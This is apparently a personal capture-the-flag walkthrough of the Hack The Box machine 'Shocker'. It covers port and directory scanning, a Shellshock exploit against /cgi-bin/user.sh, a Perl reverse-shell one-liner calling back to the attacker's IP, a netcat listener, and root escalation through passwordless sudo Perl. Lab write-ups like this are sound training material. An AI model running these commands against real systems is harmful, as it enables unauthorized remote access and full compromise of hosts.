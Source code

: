 **Ping**
```
ping 10.10.10.56
```
![[Pasted image 20240611160304.png]]

**Nmap default Scan**
```
nmap 10.10.10.56 -sC -sV -oN snmap
```
![[Pasted image 20240611160429.png]]

**All port Scan** 
```
nmap 10.10.10.56 -p- --open -T5 -sC -sV -oN anmap
```
![[Pasted image 20240611160806.png]]

**Port 80**
![[Pasted image 20240611160822.png]]

**Gobuster on port 80**
```
gobuster dir -u http://10.10.10.56// -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240611162240.png]]
Nothing Interesting.

Using dirb
```
dirb http://10.10.10.56 -o dirb.txt -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```
![[Pasted image 20240611162400.png]]
We have found a new directory /cgi-bin

Will exploit the cgi-bin also we can add .sh and .cgi extensions in Gobuster
```
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf,sh,cgi -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster_cgi-bin.txt
```
![[Pasted image 20240611162221.png]]
We found a new file user.sh

The new directory, downloads a file 
![[Pasted image 20240611162619.png]]





Content of user.sh
![[Pasted image 20240611164147.png]]
We can use this /cgi-bin/user.sh as shellshock code 

Will find exploit for cgi-bin
![[Pasted image 20240611164243.png]]

We found one from Exploit-db https://www.exploit-db.com/exploits/34900
![[Pasted image 20240611164320.png]]

Slightly modified the exploit code according to our need
![[Pasted image 20240611164420.png]]
Included vulnerable directory

Then ran the exploit
```
python2 exp.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.7 lport=443
```
![[Pasted image 20240611164515.png]]
We got RCE, will get reverse shell now


Reverse shell using Perl
```
perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```
![[Pasted image 20240611164620.png]]

```
rlwrap nc -nvlp 4444
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240611164712.png]]
Got reverse shell and upgraded my shell to interactive using python 3.

Got user.txt
![[Pasted image 20240611164842.png]]


Let's Strat with sudo permissions
```
sudo -l
```
![[Pasted image 20240611165110.png]]
Perl has sudo privilege with no password

Will exploit this to escalate our privilege
```
sudo perl -e 'exec "/bin/sh";'
```
![[Pasted image 20240611165418.png]]
We are in as root now

We got our root flag
![[Pasted image 20240611165502.png]]





That's it, we are done with Shocker....:)